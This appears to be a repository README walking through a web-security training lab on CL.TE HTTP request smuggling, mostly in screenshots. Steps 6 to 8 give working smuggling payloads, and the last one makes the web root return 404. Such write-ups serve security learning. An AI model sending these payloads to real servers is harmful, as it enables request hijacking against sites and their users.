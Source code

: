 # HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

## This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

## To solve the lab, smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a 404 Not Found response.

### step1

change post request to get request
change protocol from HTTP/2 to HTTP/1.1

![screenshot](./images/images_lab4/lab4_homepage_with_post_request.png)

### step2

![screenshot](./images/images_lab4/lab4_add_payload_for_lab1.png)

### step3

![screenshot](./images/images_lab4/lab4_proxy_error.png)

### step4

![screenshot](./images/images_lab4/lab4_payload_ce_te.png)

### step5

content-Length update must be unmarked

![screenshot](./images/images_lab4/lab4_uncheck_content_length.png)

### step6

test payload

```
e
q=smuggling&x=
0

GET /post?postId=5 HTTP/1.1
Foo: x
```

![screenshot](./images/images_lab4/lab4_test_payload_to_display_post.png)

### step7

test payload

```
0

GET /post?postId=5 HTTP/1.1
Foo: x
```

![screenshot](./images/images_lab4/lab4_payloadfor_post.png)

### step8

final payload to solve lab

```
0

GET /404 HTTP/1.1
Foo: x
```

![screenshot](./images/images_lab4/lab4_404_request_payload.png)

### step9

lab solved

![screenshot](./images/images_lab4/lab4_lab_solved.png)
